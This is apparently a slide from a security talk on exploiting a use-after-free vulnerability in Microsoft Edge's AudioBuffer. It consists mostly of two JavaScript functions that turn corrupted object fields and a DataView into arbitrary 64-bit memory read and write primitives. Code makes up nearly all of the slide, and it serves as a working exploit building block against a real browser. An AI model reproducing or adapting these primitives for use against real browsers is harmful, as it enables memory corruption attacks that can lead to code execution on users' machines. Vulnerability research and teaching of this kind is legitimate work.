

02
Edge AudioBuffer UAF Vulnerability Analysis and Exploitation :Achieve AAR/AAW

How to achieve arbitrary address reading and writing?
function AAR_64(address)
{
address_low = address.getLowBits()
address_high= address.getHighBits()
obj_arr[target][p_buffer_low] = address_low;
obj_arr[target][p_buffer_high] = address_high;
low = mydv.getUint32(0,true)
high = mydv.getUint32(4,true)
return new Long(low, high,true)
}

function AAW_64(address, data)
{
address_low = address.getLowBits()
address_high= address.getHighBits()
obj_arr[target][p_buffer_low] = address_low;
obj_arr[target][p_buffer_high] = address_high;
data_lo = data.getLowBits()
data_hi = data.getHighBits()
mydv.setUint32(0,data_lo,true)
mydv.setUint32(4,data_hi,true)
}